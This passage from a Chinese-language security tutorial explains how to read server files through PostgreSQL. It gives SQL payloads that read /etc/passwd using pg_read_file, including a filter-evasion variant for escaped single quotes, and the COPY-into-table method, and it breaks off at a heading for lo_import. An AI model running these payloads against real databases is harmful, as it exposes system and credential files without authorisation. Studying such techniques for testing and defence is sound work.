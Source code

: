 - - -

# [0x02 PostgreSQL 读文件](#toc_0x02-postgresql)

**方法 1 pg\_read\_file**

```bash
-- 注意：在早期的 PostgreSQL 版本中，pg_read_file 不允许使用绝对路径
select pg_read_file('/etc/passwd');

-- 单引号被转义的情况下使用
select/**/PG_READ_FILE($$/etc/passwd$$)
```

[![15.png](assets/1710208076-a809468e15bb89db4467075cbf17a899.png)](https://storage.tttang.com/media/attachment/2022/04/13/98194b2b-9aa9-4174-9eea-2d6ba11f5192.png)

**方法 2**

```bash
create table testf0x(t TEXT);
copy testf0x from '/etc/passwd';
select * from testf0x limit 1 offset 0;
```

[![8.png](assets/1710208076-e386f9278b864c0476e489af0bef9f08.png)](https://storage.tttang.com/media/attachment/2022/04/13/e2e1feb9-8e4e-45ee-b898-ab0fb34edabc.png)

**方法 3 lo\_import**
